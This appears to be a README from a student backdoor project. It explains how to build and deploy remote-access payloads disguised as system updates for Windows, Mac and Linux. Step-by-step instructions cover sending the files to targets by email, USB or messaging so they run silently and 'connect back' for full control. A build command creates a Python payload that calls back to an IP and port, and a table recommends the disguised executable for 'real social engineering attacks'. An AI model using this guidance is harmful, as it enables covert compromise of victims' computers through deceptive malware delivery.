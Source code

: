 ```
exploitation/payloads/
├── SecurityUpdate.exe      ← Send this to Windows targets
├── SystemUpdate.app/       ← Compress and send to Mac targets
└── system-update           ← Send this to Linux targets
```

**Deployment:**

1. Send file to target via email, USB, messaging, etc.
2. Target opens/double-clicks the file
3. **Runs automatically** - no commands needed!
4. Silent execution, connects back to you
5. You get full control!

---

### METHOD 2: Python Script Malware 📄 SIMPLER BUT LESS EFFECTIVE

**Creates Python script that:**

- ⚠️ Requires Python on target machine
- ⚠️ Target must type command to run
- ✅ Smaller file size (~50 KB)
- ✅ Faster to build
- ✅ Good for quick testing

**Build Command:**

```bash
cd /Users/kaweewatnoisuwan/Desktop/DES484_Backdoor/exploitation
python3 build_payload.py 192.168.1.100 5555
```

**Output:** `malware_payload.py`

**Deployment:**

1. Send `malware_payload.py` to target
2. Target must run: `python3 malware_payload.py`
3. Connects back to you

**Problem:** Harder to convince target to run terminal commands!

---

## 📊 Which Method Should You Use?

| Scenario                           | Use This Method           |
| ---------------------------------- | ------------------------- |
| **Real social engineering attack** | ✅ Executable (.exe/.app) |
| **Professional penetration test**  | ✅ Executable (.exe/.app) |
| **Target is not technical**        | ✅ Executable (.exe/.app) |
| **Want it to "just work"**         | ✅ Executable (.exe/.app) |
| **Quick testing in lab**           | Python script (.py)       |
| **Target has Python skills**       | Python script (.py)       |
